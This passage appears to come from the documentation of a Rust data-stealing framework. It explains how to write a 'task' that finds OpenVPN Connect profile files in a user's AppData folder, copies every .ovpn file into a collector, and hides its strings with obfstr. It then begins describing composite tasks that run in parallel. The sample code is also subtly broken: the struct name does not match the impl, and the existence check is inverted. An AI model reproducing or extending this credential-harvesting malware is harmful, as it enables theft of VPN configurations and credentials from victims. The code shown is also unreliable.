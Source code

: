 #### 3. Example: Implementing a simple OpenVPN task
```rust
use alloc::borrow::ToOwned;
use tasks::{parent_name, Task};
use filesystem::{FileSystem, copy_content_with_filter, path::Path};
use collector::Collector;
use obfstr::obfstr as s;

// define the struct
pub struct OpenVPN;

// impl Task trait
impl<C: Collector, F: FileSystem> Task<C, F> for ExampleTask {
    // to <parent>/OpenVPN folder
    parent_name!("OpenVPN");
    
    // task entrypoint
    fn run(&self, parent: &Path, filesystem: &F, collector: &C) {
        // there is OpenVPN store their profiles
        let profiles = Path::appdata() / s!("OpenVPN Connect") / s!("profiles");
        
        // nothing to do if the profiles doesn't exist
        if StorageFileSystem.is_exists(&profiles) {
            return;
        }

        // copy between filesystems to populate log file content
        let _ = copy_content_with_filter(
            // source filesystem
            StorageFileSystem,
            
            // source path
            profiles,
            
            // destination filesystem
            filesystem,
            
            // destination path
            parent,
            
            // filter, applied to each file being copy, 
            // if return true - the file will copy
            &|profile| {
                profile.extension().map(|ex| ex.contains(s!("ovpn"))).unwrap_or(false)
            }
        );
    }
}
```

#### 4. Task groups (CompositeTask)
Sometimes, a single task isn't enough — you might want to run multiple related tasks together. For that, the system provides a composite task mechanism that lets you define a group of tasks which all run in parallel.
